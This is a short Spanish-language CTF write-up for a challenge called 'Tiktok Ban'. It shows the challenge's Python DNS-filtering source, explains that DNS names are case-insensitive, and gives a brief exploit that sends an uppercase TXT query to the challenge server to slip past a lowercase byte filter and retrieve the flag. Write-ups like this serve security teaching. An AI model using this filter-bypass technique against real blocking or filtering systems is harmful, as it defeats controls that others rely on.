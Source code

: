 # Tiktok Ban

Codigo fuente:

``` python
#!/usr/local/bin/python -u

import subprocess
import sys
import socket

#from flag import flag
flag="flag{fakeflag}"

dns_ip_addr = "127.0.0.1"
dns_port = 25565

subprocess.run(
        ['/app/dnsmasq',
         '-x', 'dnsmasq.pid',
         '-p', f'{dns_port}',
         '--txt-record', f'tiktok.com,{flag}'])

size = sys.stdin.buffer.read(4)
size = int.from_bytes(size)

req = sys.stdin.buffer.read(size)

if b'tiktok\x03com' in req:
    print("Sorry, TikTok isn't available right now. A law banning TikTok has been enacted in the U.S. Unfortunately, that means you can't use TikTok for now. We are fortunate that President Trump has indicated that he will work with us on a solution to reinstate TikTok once he takes office. Please stay tuned!")
else:
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.sendto(req, (dns_ip_addr, dns_port))
    resp = sock.recv(1024)
    print(resp)
```


El programa levanta un servidor DNS con un registro TXT para el dominio `tiktok.com` que contiene la flag.

Se espera que se envie una peticion DNS predecedida por 4 bytes que representan la longitud en bytes que se va a leer de la consulta.

El protocolo DNS es insensible a mayusculas, o sea `tiktok.com` y `TIKTOK.COM` son el mismo dominio.

Exploit:
``` python
import dns.message, dns.query
import socket

# Crear consulta DNS TXT para flag.tiktok.com
query = dns.message.make_query("TIKTOK.com", dns.rdatatype.TXT)

# Enviar consulta al servicio
with socket.socket(socket.AF_INET,socket.SOCK_STREAM) as s:
    s.connect(('challs.umdctf.io',32300))
    s.send(len(query.to_wire()).to_bytes(4) + query.to_wire())
    response = s.recv(1024)

# Extraer la flag de la respuesta DNS
print(response.decode())
```

`{W31C0M3_84CK_4ND_7H4NK5_F0r_Y0Ur_P4713NC3_4ND_5UPP0r7_45_4_r35U17_0F_Pr351D3N7_7rUMP_71K70K_15_84CK_1N_7H3_U5}`
